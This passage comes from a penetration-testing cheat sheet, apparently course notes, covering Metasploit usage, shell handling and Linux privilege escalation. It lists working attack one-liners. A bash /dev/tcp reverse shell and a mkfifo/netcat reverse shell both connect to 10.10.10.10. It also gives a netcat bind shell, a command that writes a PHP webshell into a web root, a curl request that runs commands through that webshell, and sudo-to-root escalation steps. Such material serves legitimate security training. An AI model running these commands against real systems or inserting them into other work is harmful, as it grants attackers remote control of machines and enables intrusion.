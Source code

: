 MSF: Set a value for an MSF module option

`check`

MSF: Test if the target server is vulnerable

`exploit`

MSF: Run the exploit on the target server is vulnerable

**Using Shells**

`nc -lvnp 1234`

Start a  `nc`  listener on a local port

`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`

Send a reverse shell from the remote server

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`

Another command to send a reverse shell from the remote server

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f`

Start a bind shell on the remote server

`nc 10.10.10.1 1234`

Connect to a bind shell started on the remote server

`python -c 'import pty; pty.spawn("/bin/bash")'`

Upgrade shell TTY (1)

`ctrl+z`  then  `stty raw -echo`  then  `fg`  then  `enter`  twice

Upgrade shell TTY (2)

`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`

Create a webshell php file

`curl http://SERVER_IP:PORT/shell.php?cmd=id`

Execute a command on an uploaded webshell

**Privilege Escalation**

`./linpeas.sh`

Run  `linpeas`  script to enumerate remote server

`sudo -l`

List available  `sudo`  privileges

`sudo -u user /bin/echo Hello World!`

Run a command with  `sudo`

`sudo su -`

Switch to root user (if we have access to  `sudo su`)
